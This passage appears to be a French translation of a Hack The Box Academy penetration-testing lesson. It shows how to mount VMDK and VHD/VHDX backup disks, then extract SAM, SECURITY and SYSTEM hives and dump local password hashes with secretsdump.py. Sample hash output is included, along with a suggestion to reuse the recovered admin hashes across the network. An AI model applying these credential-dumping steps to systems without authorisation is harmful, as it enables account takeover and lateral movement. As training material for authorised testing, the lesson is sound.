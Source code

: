 #### Monter VMDK sur Linux

Monter VMDK sur Linux

```
dsgsec@htb[/htb]$ guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk

```

#### Monter VHD/VHDX sur Linux

Monter VHD/VHDX sur Linux

```
dsgsec@htb[/htb]$ guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1

```

Sous Windows, nous pouvons cliquer avec le bouton droit sur le fichier et choisir `Monter`, ou utiliser l'utilitaire `Gestion des disques` pour monter un fichier `.vhd` ou `.vhdx` . Si vous préférez, nous pouvons utiliser l'applet de commande PowerShell [Mount-VHD](https://docs.microsoft.com/en-us/powershell/module/hyper-v/mount-vhd?view=windowsserver2019-ps). Quelle que soit la méthode, une fois que nous aurons fait cela, le disque dur virtuel apparaîtra comme un lecteur alphabétique que nous pourrons ensuite parcourir.

![image](https://academy.hackthebox.com/storage/modules/67/mount.png)

Pour un fichier `.vmdk` , nous pouvons cliquer avec le bouton droit de la souris et choisir `Map Virtual Disk` dans le menu. Ensuite, nous serons invités à sélectionner une lettre de lecteur. Si tout se passe comme prévu, nous pouvons parcourir les fichiers et répertoires du système d'exploitation cible. Si cela échoue, nous pouvons utiliser VMWare Workstation `File --> Map Virtual Disks` pour mapper le disque sur notre système de base. Nous pourrions également ajouter le fichier `.vmdk` sur notre machine virtuelle d'attaque en tant que disque dur virtuel supplémentaire, puis y accéder en tant que lecteur alphabétique. Nous pouvons même utiliser `7-Zip` pour extraire des données d'un fichier .`vmdk` . Ce [guide](https://www.nakivo.com/blog/extract-content-vmdk-files-step-step-guide/) illustre de nombreuses méthodes pour accéder aux fichiers d'un fichier `.vmdk` .

#### Récupération des hachages à l'aide de Secretsdump.py

Pourquoi nous soucions-nous d'un disque dur virtuel (en particulier Windows) ? Si nous pouvons localiser une sauvegarde d'une machine active, nous pouvons accéder au répertoire `C:\Windows\System32\Config` et dérouler les ruches de registre `SAM`, `SECURITY` et `SYSTEM`. Nous pouvons ensuite utiliser un outil tel que [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) pour extraire le mot de passeord hachages pour les utilisateurs locaux.

Récupération de hachages à l'aide de Secretsdump.py

```
dsgsec@htb[/htb]$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Clé de démarrage du système cible : 0x35fb33959c691334c2e4297207eeeeba
[*] Vidage des hachages SAM locaux (uid:rid:lmhash:nthash)
Administrateur:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
Invité:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 :::
Compte par défaut : 503 : aad3b435b51404eeaad3b435b51404ee : 31d6cfe0d16ae931b73c59d7e0c089c0 :: :
[*] Vidage des informations de connexion au domaine mises en cache (domaine/nom d'utilisateur : hachage)

<SNIP>

```

Nous pouvons avoir de la chance et récupérer le hachage du mot de passe de l'administrateur local pour le système cible ou trouver un ancien hachage du mot de passe de l'administrateur local qui fonctionne sur d'autres systèmes de l'environnement (ce que j'ai fait sur plusieurs évaluations).